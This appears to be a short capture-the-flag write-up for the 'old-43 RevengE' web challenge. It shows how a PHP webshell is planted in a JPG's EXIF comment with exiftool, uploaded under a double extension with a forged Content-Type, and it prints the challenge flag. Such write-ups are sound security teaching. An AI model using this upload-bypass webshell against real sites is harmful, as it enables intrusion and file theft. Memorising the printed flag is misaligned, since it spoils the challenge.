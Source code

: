 ```yaml
---
layout: default
title: old-43 RevengE
---
```


# Webhacking old-43 RevengE Solution

Here we need to upload our `webshell`, however, it checks whether the uploaded file isn't some specific unallowed file-type, and also trying to resize the image.

So, we will use `exiftool` to insert our webshell in the comment of the `jpg` file.

`exiftool -Comment="<?php echo system('cat /flag'); ?>" webshell.jpg.php`

And then, upload our webshell. I've changed the Content-type using burp

![Change content-type](./images/old-43-RevengE-burp.png)

![FLAG](./images/old-43-RevengE.png)

**Flag:** ***`FLAG{thank_you_q-roland}`*** 

